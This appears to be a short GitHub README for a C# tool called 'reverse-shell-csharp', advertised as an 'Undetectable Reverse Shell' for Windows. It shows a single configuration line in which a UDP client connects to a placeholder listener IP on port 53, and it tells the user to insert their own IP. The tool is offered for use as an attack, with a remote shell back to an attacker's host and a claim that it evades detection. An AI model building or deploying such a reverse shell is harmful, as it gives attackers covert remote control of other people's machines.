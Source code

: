# reverse-shell-csharp
Undetectable Reverse Shell with C# by Windows!
<br><br>
# Change your listener IP here :
<pre>udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!
